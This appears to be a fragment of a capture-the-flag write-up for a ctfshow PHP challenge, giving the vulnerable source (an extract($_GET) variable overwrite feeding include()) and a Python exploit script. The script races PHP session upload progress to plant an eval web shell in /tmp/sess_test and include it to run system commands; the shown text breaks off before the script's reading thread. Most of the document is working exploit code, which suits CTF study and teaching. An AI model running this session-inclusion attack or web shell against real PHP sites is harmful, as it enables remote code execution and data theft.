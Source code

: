 ```
    private $vip;
    private $secret;

    function __construct(){
        $this->vip = 0;
        $this->secret = $flag;
    }

    function __destruct(){
        echo $this->secret;
    }

    public function isVIP(){
        return $this->vip?TRUE:FALSE;
        }
    }

    function __autoload($class){
        if(isset($class)){
            $class();
    }
}

#过滤字符
$key = $_SERVER['QUERY_STRING'];
if(preg_match('/\_| |\[|\]|\?/', $key)){
    die("error");
}
$ctf = $_POST['ctf'];
extract($_GET);
if(class_exists($__CTFSHOW__)){
    echo "class is exists!";
}

if($isVIP && strrpos($ctf, ":")===FALSE){
    include($ctf);
}

```

包含session

```
# -*- coding: utf-8 -*-
# @Time : 20.12.5 13:52
# @author:lonmar
import io
import requests
import threading

sessid = 'test'
data = {
    "ctf": "/tmp/sess_test",
    "cmd": 'system("cat flag.php");'
}


def write(session):
    while event.isSet():
        f = io.BytesIO(b'a' * 1024 * 50)
        resp = session.post('http://17787258-2baa-4fff-a0c2-75d262f85b01.challenge.ctf.show/',
                            data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST["cmd"]);?>'},
                            files={'file': ('test.txt', f)}, cookies={'PHPSESSID': sessid})

```